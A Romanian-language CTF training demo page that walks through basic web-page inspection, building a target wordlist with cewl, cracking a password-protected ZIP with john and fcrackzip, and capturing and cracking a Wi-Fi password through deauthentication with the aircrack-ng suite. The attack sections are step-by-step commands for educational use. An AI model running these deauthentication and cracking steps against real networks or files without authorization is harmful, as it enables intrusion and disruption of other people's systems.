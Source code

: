 ```yaml
---
title: Ixodron 2024 - Demo 2
date: 2024-09-03 10:00:00
categories:
  - CTFs
  - Ixodron 2024
  - 2. Demo
tags:
  - CTFs
  - Ixodron 2024
  - Demo
toc: true
---
```


---
> Al doilea set de exerciții din seria de `Demo`-uri

---
<!-- more -->

<br>

## 1. Server web
> Executarea unor teste de securitate de bază pe un server web pentru a-i înțelege caracteristicile

**1.1. Codul sursă**
Deschide pagina în browser: `https://ixodron.ro`
Vezi codul sursă: `click-dreapta`, `View page source`

> **TASK**: Ce generator de site folosesc? Ce versiune este? (cuvinte cheie: `generator`, `version`)

<br>

**1.2. Developer tools - network tab**

Deschide Developer Tools: `Fn + F12` sau `CTRL+SHIFT+I`
Selectează `Network Tab`
Reîncarcă pagina pentru a vedea traficul de date: `CTRL+R`

> **TASK**: Selectează doar imagini și salvează logo-ul paginii.

<br>

**1.3. Developer tools - storage tab**

Deschide Developer Tools: `Fn + F12` sau `CTRL+SHIFT+I`
Selectează `Storage`
Vezi secțiunea de `Cookies`

> **TASK**: Șterge cookie-urile din browser.

<br>

**1.4. Certificat SSL**

Iconița cu lacăt 🔒
`Connection secure`
`More information`
`View certificate`

> **TASK**: Care este utilizarea cheii? (`Key usage`)


<br>
<br>


## 2. Parole personalizate
> Crearea unor liste de parole personalizate pentru ținta atacului

```bash
mkdir -p /home/kali/demo-1/wordlist/
cd /home/kali/demo-1/wordlist/
```

**Instalează aplicația `cewl`**
```bash
sudo apt install cewl -y
cewl --help
```

**Generarea unei liste de parole personalizate pentru site-ul web ales**
```bash
cewl https://chronossec.site -w wordlist.txt -m 5 -d 1 -v
```
| Argument  | Descriere |
| -- | -- |
| `-w wordlist.txt` | numele fisierului ce va fi generat |
| `-m 5` | numarul minim de caractere al cuvintelor selectate |
| `-d 1` | depth - adancimea linkurilor verificate |
| `-v` | verbose - detalii despre process |

**Verificarea listei de parole generate**
```bash
cat wordlist.txt
wc -l wordlist.txt
```


<br>
<br>


## 3. Arhiva ZIP
```bash
mkdir -p /home/kali/demo-1/archive
cd /home/kali/demo-1/archive
```
> Spargerea unor arhive protejate de parole
**Descarcă fișierul: <a href="https://chronossec.site/uploads/ixodron-ctf/demo-1/archive.zip" target="_blank">link</a>.**
```bash
wget https://chronossec.site/uploads/ixodron-ctf/demo-1/archive.zip /home/kali/demo-1/archive/archive.zip
```

**Extrage lista extensivă de parole, `rockyou.txt`**
```bash
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```

**Sparge parola**

- `Metoda 1`
> Folosim `zip2john` pentru a converti parola arhivei într-un format compatibil cu `john`.
```bash
zip2john archive.zip > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

- `Metoda 2`
> Utilizăm `fcrackzip` pentru atac de dicționar direct asupra arhivei.
```bash
sudo apt install -y fcrackzip
```
```bash
fcrackzip -D -v -u -p /usr/share/wordlists/rockyou.txt archive.zip
```
| Argument | Descriere|
| -- | -- |
| `-D` | atac tip Dicționar |
| `-v` | mai multe informații (verbos) |
| `-u` | încearcă să dezarhiveze cu fiecare parolă generată |
| `-p` | fișierul cu lista de parole |

**Extrage fișerul** (înlocuiește parola găsită)
```bash
unzip -P password archive.zip
```


<br>
<br>


## 4. Wi-Fi
> Spargerea parolei unei rețele Wi-Fi 

**4.1. Inserarea adaptorului de rețea (antena)**
<br>

**4.2. Configurarea interfeței de rețea**
```bash
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode monitor
sudo ifconfig wlan0 down
iwconfig
```
```bash
sudo airmon-ng start wlan0
airmon-ng check kill
```

**4.3.Alegerea rețelei și clientului țintă**
```bash
sudo airodump-ng wlan0
```
```
sudo airodump-ng --bssid <INPUT> --channel <INPUT> --write capturefile wlan0
```

**4.4. Deuthentificarea clientului de la rețea**
> Dacă trimitem un număr mic de pachete de deautentificare, clientul nu-și va da seama că a fost deconectat, 
    iar noi vom putea intercepta direct parola criptată trimisă de acesta către router (access point)
```bash
sudo aireplay-ng --deauth 4 -a <target_MAC> -c <client_MAC> wlan0
```

**4.5. Spargerea parolei criptate**
```bash
sudo aircrack-ng capturefile.cap -w /usr/share/wordlist/rockyou.txt
```

<br>
<br>

<p style="text-align:center">
  <b>NEXT</b>: <a href="/CTFs/Ixodron/ctf/" target="_blank">CTF</a>
</p>

---
---